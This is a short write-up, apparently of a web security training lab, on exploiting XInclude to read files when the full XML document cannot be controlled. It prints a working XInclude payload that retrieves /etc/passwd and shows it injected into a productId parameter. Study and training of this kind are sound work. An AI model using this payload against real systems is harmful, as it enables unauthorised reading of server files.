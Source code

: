 Title: Exploiting XInclude to retrieve files
Level: Practitioner
Desc: This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.
Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.
To solve the lab, **inject an XInclude statement** to retrieve the contents of the /etc/passwd file. 

you don't control entire XML document -> you can't add or edit DOCTYPE element -> try Xinclude

Xinclude gives possibility to build XML document from sub-documents.

You can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document. 

example of payload: 
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

![image](https://github.com/user-attachments/assets/1339cefc-6dc5-4fca-aba6-ef1336901d18)

paylad: 
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

payload in use:
```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
